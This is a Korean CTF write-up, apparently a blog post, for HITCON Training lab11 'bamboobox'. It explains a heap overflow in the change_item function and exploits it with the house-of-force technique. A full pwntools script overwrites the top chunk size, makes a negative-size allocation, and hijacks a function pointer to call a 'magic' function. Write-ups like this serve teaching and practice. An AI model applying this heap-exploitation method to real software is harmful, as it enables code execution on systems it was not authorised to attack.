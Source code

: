 ```yaml
---
layout: post
title: "[HITCON Training] lab11"
comments : true
category : War Game
---
```


# 문제
***

bamboobox 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

바이너리 코드

__main()__
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
  v3 = malloc(0x10uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  ((void (__fastcall *)(signed __int64, _QWORD))*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        ((void (__fastcall *)(char *, char *))v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

__add_item()__ 
```c
__int64 add_item()
{
...
 
  else
  {
    printf("Please enter the length of item name:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( !v2 )
    {
      puts("invaild length");
      return 0LL;
    }
    for ( i = 0; i <= 99; ++i )
    {
      if ( !qword_6020C8[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        qword_6020C8[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        *(_BYTE *)(qword_6020C8[2 * i] + (signed int)read(0, (void *)qword_6020C8[2 * i], v2)) = 0;
        ++num;
        return 0LL;
      }
    }
  }
  return 0LL;
}
```

__change_item()__
```c
unsigned __int64 change_item()
{
...
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( qword_6020C8[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      *(_BYTE *)(qword_6020C8[2 * v2] + (signed int)read(0, (void *)qword_6020C8[2 * v2], v0)) = 0;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

__add_item()__ 함수에서는 할당받을 chunk의 크기를 입력 받고 해당 chunk에 item 이름을 입력 받는다. (chunk의 크기 만큼 문자열을 입력할 수 있다.) <br/>
itemlist는 chunk의 크기 (8byte), chunk의 주소 (8byte)로 구성된다. <br/>
__change_item()__ 함수에서는 선택한 itemlist 항목의 item 이름을 변경한다. 그런데 이 때 입력 받을 문자열의 길이를 다시 입력으로 받는다. 이를 통해서 top chunk의 size 영역을 overwrite 할 수 있다. (__the house of force__ 공격이 가능) 

## exploit 방법
1. __change_item()__ 함수를 통해서 top chunk의 size 영역에 0xffffffffffffffff을 overwrite 한다.
2. __add_item()__ 함수를 통해서 -(새로 할당될 chunk의 주소 - (__main()__ 함수에서 v3에 할당된 chunk의 주소 - 16) ) 크기 만큼 chunk를 할당한다.
3. __add_item()__ 함수를 통해서 16 바이트 크기의 chunk를 할당하면 v3 영역이 할당 된다.
4. __change_item()__ 함수를 통해서 v3[1]을 magic 함수의 주소로 바꾼 후 v3[1]을 호출한다.


__주의할 점1__ <br/>
메모리 구조는 다음과 같다.
```
------------------
Not allocated
------------------
Heap base
------------------
Topchunk
------------------
```
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당할 때 top chunk의 size, prev_size 같은 것들이 Not allocated 영역 (write 권한이 없는 영역일 때)에 write 되지 않도록 크기를 잘 계산하자. <br/>

__주의할 점2__ <br/>
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당한 이후에 top chunk의 크기가 적절히 남도록 주의하자. <br/><br/>
예를 들어서 큰 할당 이후 top chunk가 0x38 남았을 때 내가 0x20 만큼 할당받으려고 하면 top chunk가 너무 조금 남아서 top chunk를 확장하려고 하는데 이때 malloc에서 sigabrt 에러가 발생한다. (내가 top chunk에 이상한 짓을 한 이후에 top chunk를 확장하려고 하는 상황에서 뭔가가 꼬이는 듯)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_item(length,pay):
	p.recvuntil("choice:")
	p.send("2")
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

def chan_item(index,length,pay):
	p.recvuntil("choice")
	p.send("3")
	p.recvuntil("item:")
	p.send(index)
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

file_path="/home/sungyun/round4/lab11/bamboobox"

p=process(file_path)

add_item("16","house_of_force")
add_item("16","hmm..")

pay="A"*16+"\x00"*8
pay+="\xff\xff\xff\xff\xff\xff\xff\xff"

chan_item("1","32",pay)

add_item("-112","hi_3ffr3s")
add_item("16","exploit!")

pay2="A"*8
pay2+=p64(0x400d49) #magic

chan_item("3","16",pay2)

p.recvuntil("choice:")
p.send("5")

p.interactive()
```


